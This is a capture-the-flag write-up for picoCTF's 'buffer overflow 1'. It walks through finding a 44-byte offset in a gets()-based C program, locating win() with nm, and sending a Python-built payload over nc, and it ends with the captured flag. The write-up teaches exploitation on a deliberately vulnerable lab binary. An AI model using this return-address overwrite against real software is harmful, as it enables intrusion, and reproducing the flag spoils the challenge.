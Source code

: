 ![Task desc](../assets/images/buffer-overflow-1_image_1.png)


As in the [buffer overflow 0](buffer%20overflow%200.md), we have a program in C and its code. Let's take a look at it:  
 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```


As you can see from the code, we need to activate the `win()` function, but there is no call to it anywhere in the code. This should be done as follows:


* After the `vuln` function is done with its work, instead of returning to `main` (from where it was called), it moved to the beginning of the `win` execution.
* The `vuln` function contains a buffer `buf[BUFSIZE]`, where `BUFSIZE 32`. It also uses the vulnerable function `gets(buf)` to read user input. That is, the excess data will be written to the memory on the stack, which is located immediately after the `buf` buffer.
* На стеку після `buf`, розташовані інші дані, як-от базовий покажчик (EBP/RBP) та адреса повернення.
  
  > [!NOTE]
  > **Return address** - processor reads it from the stack to determine where to jump to execute the code after completing the current function (vuln).


To call `win`, we need tu input in `gets(buf)` enough chars to overwrite `buf `(32 bytes), padding/base pointer, and reach the return address.




Let's run server `nc saturn.picoctf.net &lt;port> ` and try the same approach we used for buffer overflow 0:

![image_2](../assets/images/buffer-overflow-1_image_2.png)


Too short output doesn't change the address `0x804932f`, which is displayed, while a very long input makes changes: `0x61616161`.

Let's decode it with CyberChef:  

![image_3](../assets/images/buffer-overflow-1_image_3.png)




I experimented with the number of characters needed to rewrite the return address and got the following:


 

```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (42 char) --> no change                       0x804932f           
...
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (43 char) --> address remains unchanged      0x804932f
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (44 char) --> address is overwritten        0x8049300  (x00 - \0 null terminator)
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (45 char) --> address is overwritten       0x8040061
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (46 char) --> address is overwritten      0x8006161
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (47 char) --> completely overwritten     0x0616161  (or 0x616161)
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (48 char) --> 1 byte 0x61(a) was added  0x61616161 (4 bytes of return address are completely overwritten)
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (49 char) --> no change                0x61616161
...
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (50 char) -->                         0x61616161
```



The experiment shows that to completely overwrite a 4-byte return address (the format `0x...` indicates a 32-bit address), an input of **48 characters** is required. In addition, the address is overwritten from right to left, which indicates `Little Endian` byte order. This was hinted at in the task itself:


![image_5](../assets/images/buffer-overflow-1_image_5.png)



Since the 48-character input (with indices 0-47) completely overwrites the return address:

* The byte with index 44 (45th character) is the first byte written to the return address.
* The byte with index 45 (46th character) is the second byte.
* The byte with index 46 (47th character) is the third byte.
* The byte with index 47 (48th character) is the fourth byte.

This means that **the offset from the beginning of `buf` to the beginning of the return address is 44 bytes**.


Verify it:

* Size of `buf`: 32 bytes.
* Offset = 44 bytes.
* Padding + stored EBP/RBP: 44 - 32 = 12 bytes. (This is the space between the end of `buf` and the beginning of the return address). This is likely to be 12 bytes of padding without EBP, or 8 bytes of padding + 4 bytes of EBP, or another combination depending on the compiler.
* But the exact elements on stack doesn't matter, overall offset matters.



Now we need to geuss address on `win()` in memory. We'll place this address instead of ret address that is shown in console.

I'll use tool `nm`

> [!NOTE]
> `nm` is used for **character analysis** in compiled object files, static libraries, and executable files.
>
> `nm` reads the **symbol table**, which is embedded in the binary file during compilation. 
> **symbol table** is a list of names (characters) used in a program, such as:
> 
> * Function names (such as `main, vuln, win,` or library functions such as `printf, strcpy`).
> * Names of global variables.
> * Names of static variables.


```bash
nm vuln > vuln_addresses.txt
```


![image_6](../assets/images/buffer-overflow-1_image_6.png)


Now let's create a payload. 
It will consist of pattern + `win()` address in **little endian** order. I wrote a Python-script that creates payload:

```python
import sys
import struct

OFFSET = 44

WIN_ADDRESS = 0x080491f6

padding = b'a' * OFFSET

packed_win_address = struct.pack('<I', WIN_ADDRESS)

payload = padding + packed_win_address
payload += b'\n'

sys.stdout.buffer.write(payload)

print("\nPayload (hex):", payload.hex())
```


    
![image_8](../assets/images/buffer-overflow-1_image_8.png)


```shell
python3 exploit.py | nc saturn.picoctf.net 63772
```


![image_9](../assets/images/buffer-overflow-1_image_9.png)



`picoCTF{addr3ss3s_ar3_3asy_6462ca2d}`
